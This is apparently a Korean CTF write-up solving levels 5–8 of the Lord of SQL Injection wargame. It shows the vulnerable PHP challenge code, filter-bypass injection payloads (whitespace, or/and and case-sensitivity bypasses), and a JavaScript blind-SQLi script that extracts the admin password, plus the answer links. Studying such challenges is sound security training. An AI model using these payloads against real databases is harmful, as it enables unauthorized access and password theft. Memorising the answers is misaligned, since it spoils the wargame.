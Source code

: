 5-WOLFMAN
====
* 핵심: sql에서 띄어쓰기 말고 구문을 구분짓는 기호가 있을까?
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("wolfman"); 
  highlight_file(__FILE__); 
?>
```
* 띄어쓰기를 사용하지 못한다.
    * 띄어쓰기에 대한 대안은 몇가지가 있는데,
        * tab(%09)
        * line feed \n (%0a)
        * carrage return \r (%0d)
        * 괄호 ()
* 이를 이용해서 admin이 출력되는 query인 **id=guest and id<>guest and pw=''or''=''**꼴을 만들어주려면, 답은 아래와 같다.
* tab 이용
    * ?pw=%27or%09id<>%27guest
    * [링크](https://los.rubiya.kr/chall/wolfman_4fdc56b75971e41981e3d1e2fbe9b7f7.php?pw=%27or%09id<>%27guest)
* 괄호 이용
    * ?pw=%27or(id)<>%27guest
    * [링크](https://los.rubiya.kr/chall/wolfman_4fdc56b75971e41981e3d1e2fbe9b7f7.php?pw=%27or(id)%3C%3E%27guest)

6-darkelf
====
* 핵심: sql에서 or과 and 대신 쓸수 있는 기호가 있을까?
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect();  
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("darkelf"); 
  highlight_file(__FILE__); 
?>
```
* or과 and를 사용하지 못한다.
  * or과 and는 mysql에서 ||과 &&로 대체될 수 있다
* 답: [링크](https://los.rubiya.kr/chall/darkelf_c6a5ed64c4f6a7a5595c24977376136b.php?pw=%27%20||%20%27%27=%27%27%20%26%26%20id%3C%3E%27guest)

7-orge
====
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge"); 
  highlight_file(__FILE__); 
?>
```
* ?pw=%27%20||%20id=%27admin%27%20%26%26%20length(pw)=8%20%23
  * pw의 길이는 8이다.
* 구조가 orc문제와 매우 비슷하다. 
* substr과 ascii를 이용해 다음의 script를 작성했다.
  ```js
  {
    function genArray(start, end) {
      let a=[];
      let i;
      for (i=start; i <= end; ++i) {
          a.push(i);
      }
      return a;
    }
    let chars=genArray(48, 123); // [0~9, A~Z, a~z] 포함
    const url='https://los.rubiya.kr/chall/orge_bad2f25db233a7542be75844e314e9f3.php';
    let i;
    for (i=1;i<=8;i++) {
      chars.forEach((charac) => {
        fetch(`${url}?pw=%27%20||%20id=%27admin%27%20%26%26%20ascii(substr(pw,${i},${i}))=${charac}%20%23`)
          .then((res) => res.text())
          .then((res) =>{
            if(res.includes('<h2>Hello admin</h2>')) {
              console.log(i, charac, String.fromCharCode(charac));
            }
          });
      });   
    }
  }
  ```
* 나온 pw를 직접 입력해주면 된다.
* (정답링크)[https://los.rubiya.kr/chall/orge_bad2f25db233a7542be75844e314e9f3.php?pw=7b751aec]

8-troll
====
* 핵심: regex의 옵션에 대해 알고 있는가?
```php
<?php  
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/\'/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match("/admin/", $_GET[id])) exit("HeHe");
  $query = "select id from prob_troll where id='{$_GET[id]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id'] == 'admin') solve("troll");
  highlight_file(__FILE__);
?>
```
* preg_match의 flag개념을 알아보자
  * regex의 flag는 다음과 같다. [출처](https://javascript.info/regexp-introduction)
    * **i**
    * With this flag the search is **case-insensitive: no difference between A and a**
    * g
    * With this flag the search looks for all matches, without it – only the first match is returned.
    * m
    * Multiline mode (covered in the chapter Multiline mode of anchors ^ $, flag "m").
    * s
    * Enables “dotall” mode, that allows a dot . to match newline character \n (covered in the chapter Character classes).
    * u
    * Enables full unicode support. The flag enables correct processing of surrogate pairs. More about that in the chapter Unicode: flag "u" and class \p{...}.
    * y
  * “Sticky” mode: searching at the exact position in the text (covered in the chapter Sticky flag "y", searching at position)
* 이것만 알면, admin을 ADMIN으로 바꾸면 해결이 된다는걸 깨달을 수 있다.
* 답: [정답](https://los.rubiya.kr/chall/troll_05b5eb65d94daf81c42dd44136cb0063.php?id=ADMIN)

